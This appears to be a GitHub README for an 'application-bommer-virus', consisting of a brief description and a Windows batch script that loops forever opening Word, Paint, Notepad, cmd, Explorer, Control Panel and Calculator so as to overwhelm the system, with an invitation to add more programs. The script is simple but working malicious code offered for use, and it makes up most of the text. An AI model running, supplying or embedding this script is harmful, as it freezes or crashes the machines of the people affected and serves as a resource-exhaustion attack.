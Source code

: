 # application-bommer-virus
Virus that bombs applications
will start to open different applications repeatedly which will affect system’s performance.

You can also add the application of your choice in above code.

 

 

@echo off

:x

start winword

start mspaint

start notepad

start write

start cmd

start explorer

start control

start calc

goto x

 
